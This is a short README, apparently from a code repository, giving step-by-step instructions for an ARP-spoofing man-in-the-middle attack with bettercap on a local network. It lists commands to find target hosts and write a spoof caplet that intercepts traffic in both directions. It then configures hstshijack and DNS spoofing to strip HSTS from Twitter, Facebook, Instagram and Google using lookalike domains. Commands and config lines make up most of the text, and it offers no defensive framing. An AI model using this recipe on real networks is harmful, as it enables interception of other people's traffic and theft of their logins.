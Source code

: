 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
  a. `bettercap -iface <interface>`
  b. `net.probe on`
  c. `net.show`
  d. Pick a client and exit bettercap.
  e. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  a. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  b. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  c. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  a. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  b. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  c. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  a. `bettercap -iface <interface> -caplet <capletfile>`
  b. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  a. `hstshijack/hstshijack`
  b. `caplets.show`







